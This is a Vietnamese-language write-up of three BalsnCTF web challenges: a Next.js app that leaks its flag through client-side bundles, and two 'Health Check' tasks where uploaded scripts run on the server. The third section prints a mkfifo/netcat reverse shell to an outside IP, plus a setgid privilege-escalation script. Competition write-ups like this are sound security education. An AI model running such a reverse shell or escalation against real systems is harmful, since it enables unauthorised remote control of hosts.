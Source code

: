 # Write-up-BalsnCTF (Web)
### 1. my first app
![image](https://user-images.githubusercontent.com/82523299/188363439-d3381264-6dc6-467b-aadf-5e1508b4b868.png)

- Bài này được viết bằng nextjs, tôi chưa bao giờ học code js cả nên gặp nextjs là ngáo luôn ^^. Và tôi dành ra 1 tiếng để học cấp tốc tại trang https://nextjs.org/learn
- Đây là source và flag nằm ở ![image](https://user-images.githubusercontent.com/82523299/188363832-5d2212d0-d59a-43e1-9a59-fa0974b3dfa5.png)


- Vì không quen với kiểu code web routes nên mãi một hồi tôi mới biết được cách endpoine cái api hello để xuất ra secret ![image](https://user-images.githubusercontent.com/82523299/188363885-cba16781-280a-4203-a25c-abc45f6c8fa1.png)
- Nhưng thứ tôi cần là flag :((
- Trong source index.js tác giả đã `import globalVars from '../utils/globalVars'` để xuất cái title ở index của trang web và biến `globalVars` cũng chứa flag
- ![image](https://user-images.githubusercontent.com/82523299/188364193-53be8df9-c690-4b56-8680-841609a54592.png)
- Và tôi tìm mọi cách để có thể injected vào đây ^^, và rồi phát hiện không có cách nào cả
- Tôi thử search các version của thư viện nhưng đều là last version, ko có lỗi cve => cùng đường :((
- Sau khi quay lại đọc document của nextjs tôi tìm được từ khóa `one page website` đây là kiểu code mà server gửi các file frontend cho client để hướng dẫn client xử lí giảm gánh nặng cho server. Thế là tôi lục code trong DevTools của trang web
- Vì file index đã import globalVars nên data cũng được gửi về client
- ![image](https://user-images.githubusercontent.com/82523299/188365202-1c148fcd-d038-4981-822f-e57cfda31007.png)
#### Flag: BALSN{hybrid_frontend_and_api}

### 2.Health Check 1
![image](https://user-images.githubusercontent.com/82523299/188365589-0033b0b4-77c5-4134-bca1-cdd3b82c0582.png)
- Access tới trang web và nhận được đoạn json như trên
- Sau một hồi fuzz thì web này đúng kiểu chẳng có gì cả :((
- Và rồi dùng dirsearch scan thì ra được đường dẫn `http://fastest-healthcheck.balsnctf.com/docs`
- Tiếp tục fuzz đường dẫn mới và trang mới này cho phép upload 1 file zip chứa 1 file script, sau mỗi 30s server sẽ tự động đi tới và thực thi file script đó, đây là những gì trang web nói, phải đi kiểm chứng thôi ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367367-baad6a7b-be63-487d-8d94-b3e67f80d815.png)

- Lúc đầu tôi up 1 file script viết bằng python và compile thành file elf vì tôi nghĩ chỉ có elf mới thực thi được và nhận được kết quả
- ![image](https://user-images.githubusercontent.com/82523299/188365983-ac7b2b5a-7c8a-4685-885d-77bedc966d39.png)
- Và lại đi google, tôi biết đến bash script bắt đầu thực hiện thôi
- Vì output chỉ trả về trên file nên tôi đã curl để xác định xem script có thật sự được thực thi không
- ![image](https://user-images.githubusercontent.com/82523299/188366450-9f748c56-5a0f-4650-ba82-ea4ee7a26498.png)
- Nhận được request và biết rằng script có hoạt động
![image](https://user-images.githubusercontent.com/82523299/188366605-401882ff-6544-44f2-b9df-bcb7d89a7e47.png)
- Tiếp đến tôi viết luôn script để vét cạn luôn server ^^
- ![image](https://user-images.githubusercontent.com/82523299/188367209-ef691870-5ee2-4866-b6d8-0d8844c23cb6.png)
- ![image](https://user-images.githubusercontent.com/82523299/188368158-e3312c54-d08a-4c6a-a34e-a6ad21be8de1.png)
- Thấy được file flag nhưng nhìn kĩ thì không có quyền read, sau một hồi lục lọi thì trong folder __pycache__ chưa file pyc của file flag1.py 
#### Flag: BALSN{y37_4n0th3r_pYC4ch3_cHa1leN93???}

### 3.Health Check 2
- Tương tự bài Health Check 1 thì bây h tìm cách lây dc file flag2, nhưng đây không phải file python nên ko nằm trong pycache nữa
- Tới đây lại khó khăn, tôi bắt đầu nghĩ đến khái niệm leo thang đặc quyền mà tôi hay nghe thấy, bắt đầu search và học và thử khá nhiều cách và tạch cuối cùng cũng tìm ra cách để giải bài này
- Tôi tìm thầy file này trong source leak ra và nó xử lí file docker-entry 
![image](https://user-images.githubusercontent.com/82523299/188442154-b0e91ad7-80b2-496c-bcdb-36cb0867038c.png)

-File docker-entry2
```
#!/usr/bin/bash
chmod 777 flag
chmod g+s flag
mv docker-entry docker-entry3
```
- File flag.c
```
int main(void) {
    execl("/usr/bin/cat", "cat", "../../flag2", 0);
}
```
- File run script dùng reverse shell để nc tới server
```
#!/usr/bin/bash
gcc -o flag flag.c
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|sh -i 2>&1|nc 113.119.181.211 1000 >/tmp/f
```
- Nén 3 file trên vào zip rồi up lên sau đó nc ngồi đợi server
- Đổi tên file docker-entry2  thành docker-entry, để server thực thi docker-entry sau đó sẽ gán quyền egid=1000 cho file thực thi flag
- Cuối cùng là ./flag và có flag.
- 
![image](https://user-images.githubusercontent.com/82523299/188469974-a4c53d99-5f8d-4ea7-8eb8-ef6a55677d72.png)
- 
![image](https://user-images.githubusercontent.com/82523299/188470169-d81c2569-cec4-4682-b305-bfecf665377f.png)

#### FLAG: BALSN{d0cK3r_baD_8ad_ro07_B4d_b@d}



